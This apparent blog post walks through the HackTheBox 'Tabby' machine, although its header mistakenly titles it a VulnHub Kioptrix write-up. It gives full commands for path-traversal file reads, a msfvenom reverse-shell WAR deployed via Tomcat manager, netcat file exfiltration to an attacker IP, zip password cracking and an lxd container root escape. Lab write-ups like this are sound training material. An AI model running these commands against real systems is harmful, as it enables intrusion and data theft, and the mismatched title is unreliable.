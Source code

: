 ```yaml
---
layout: post
title: "VulnHub - Kioptrix Level 3"
date: 2022-03-05
categories: [VulnHub]
tags: [boot2root]
image: ![image](https://user-images.githubusercontent.com/67465230/156877775-697968ce-3f39-4263-95d4-6dfa773cd1c9.png)

---
```


|**Machine**|[Tabby](https://app.hackthebox.com/machines/Tabby)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[egre55](https://app.hackthebox.com/users/1190)|

---

Before getting started, let's first connect to HackTheBox vpn and run the machine.

Let's get started with nmap scan,

```bash
sudo nmap -T4 -p- -A -oN nmap_scan 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878224-da096a04-9998-4e1a-b659-789894e020d9.png)

nmap result tell us that there are 3 ports 22(SSH), 80(http), 8080(http) are open.

Let's get to know about what technologies are running on port 80

```bash
whatweb http://10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878456-731c2023-bdb0-4530-9ad6-77763c8b7d77.png)

here we can see that email gives us a hint that we might resolve **megahosting.htb** domain with the machine's IP by editing **/etc/hosts file**

let's find what technologies are running on this domain,

```bash
whatweb http://megahosting.htb:8080/docs/
```

![image](https://user-images.githubusercontent.com/67465230/156878227-0026ac79-3c20-4555-94e5-ee4f462e16e1.png)

visiting http://10.10.10.194,

![image](https://user-images.githubusercontent.com/67465230/156878235-51073e88-42ca-433b-a70d-e1d5a80b7a85.png)

we land on main webpage.

Let's visit port 8080 on http://10.10.10.194:8080 as well,

![image](https://user-images.githubusercontent.com/67465230/156878241-7a553b4e-3b95-4481-9f98-bf7ea8130fc2.png)

and we can see that Users are defined in **/etc/tomcat9/tomcat-users.xml** file.

after trying everything, I found that http://megahosting.htb/news.php?file=statement has LFI vulnerability.

![image](https://user-images.githubusercontent.com/67465230/156878245-1e1a2584-53d9-4da1-a9fb-0610014b96c9.png)

we can see /etc/passwd by going to http://megahosting.htb/news.php?file=../../../../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/67465230/156878249-fca889d9-4274-4cc0-8f5a-e1ff76e2068d.png)

and there's a **Ash** user. 

let's visit http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

![image](https://user-images.githubusercontent.com/67465230/156878251-ccea820a-a83f-4ac4-afbd-677bed15b28a.png)

we got blank page. Let's view the source code,

![image](https://user-images.githubusercontent.com/67465230/156878252-c5baab16-6822-4d3a-932a-2594ab94aeaf.png)

we got credentials of tomcat user.

Let's try to ssh into the system, our ssh login failed  

```bash
ssh 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878265-d4ef5ca9-fce6-4d23-bb41-587f0ccadb50.png)

Now, we'll go to host-manager-webapp on http://megahosting.htb:8080/

![image](https://user-images.githubusercontent.com/67465230/156878259-460bd85d-a2a9-45de-b972-79fa90ec06bd.png)

Ahh! Finally we arrive at manager page,

![image](https://user-images.githubusercontent.com/67465230/156878262-509bdbcf-4874-4f41-b789-7bdcb52c28a9.png)

after loging into manager page, now we'll create a payload using `msfvenom`,

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=1234 -f war > sh.war
```

and upload shell into web directory of website,

```bash
curl -u 'tomcat:' -T sh.war 'http://megahosting.htb:8080/manager/text/deploy?path=/home/shell'
```

![image](https://user-images.githubusercontent.com/67465230/156878276-281ddad8-369d-4eb3-94e5-e41ea9e767d0.png)

now start netcat listener by `nc -nvlp 1234` and trigger the uploaded shell on website

```bash
curl -u 'tomcat:******************' http://megahosting.htb:8080/home/shell/
```

![image](https://user-images.githubusercontent.com/67465230/156878697-2fc83bd9-ee22-43bf-89f0-579bd9df18e5.png)

after we execute it we'll get reverse connection,

![image](https://user-images.githubusercontent.com/67465230/156878284-7c7ca3c7-aba9-429b-87ef-de1285897e2b.png)

and now we'll upgrade shell using 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

![image](https://user-images.githubusercontent.com/67465230/156878288-539e22db-4b72-429c-bd02-e0bea312263d.png)

now we'll download file into our system by typing command in our machine 

```bash
nc -nvlp 5555 > 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878295-8b0f7980-8309-4f32-a563-8019b8140cfe.png)

and other command in that obtained shell,

```bash
nc -w 3 10.10.14.18 5555 < 16162020_backup.zip
``` 

![image](https://user-images.githubusercontent.com/67465230/156878299-67b6af1c-16c5-4957-ac7f-32a44b2a6eef.png)

Now that we have a zip file protected with password, we can try to crack the password with fcrackzip with a provided password list,

```bash
fcrackzip -D -p /home/kali/HTB/tabby/rockyou.txt 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878908-cc19a0ea-a3da-445b-be5e-70c445b8282e.png)

now switching to Ash user in shell and we can capture the user flag 

```bash
su ash
```

![image](https://user-images.githubusercontent.com/67465230/156878942-46aaaa5e-bb8e-43bd-8680-7946a7742055.png)

Now we have to do Privilege Escalation for root flag

now download this file in tabby dir in kali

![image](https://user-images.githubusercontent.com/67465230/156878303-27c4e8ee-1c24-41de-bfe4-ce054adc41d8.png)

after downloading,

![image](https://user-images.githubusercontent.com/67465230/156878313-337ff292-f7cb-42f4-ad5b-b2ffb91e12de.png)

and we'll download this file in the shell by writing this command on the shell side 

```bash
nc -lp 6666 > alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878318-765c3e03-622d-4c18-aff6-05c62447efa5.png)

and this command in our machine

```bash
nc -w 3 10.10.10.194 6666 < alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878323-1203c010-9f85-4484-8b4c-7b7eb3599c3c.png)

and now run this series of command

```bash
lxc  image import alpine-v3.12-x86_64-20201023_0344.tar.gz --alias ctfimage
lxc image list
lxc ctfimage tabbyimage -c security.privileged=true
lxc init ctfimage tabbyimage -c security.privileged=true
lxc config device add tabbyimage mydevice disk source=/ path=/mnt/root recursive=true
lxc start tabbyimage
lxc exec tabbyimage /bin/sh
```

![image](https://user-images.githubusercontent.com/67465230/156878328-6eb35b16-7585-4478-9a56-07859bb33408.png)

we got the root access to the system. We can now grab this root flag. (: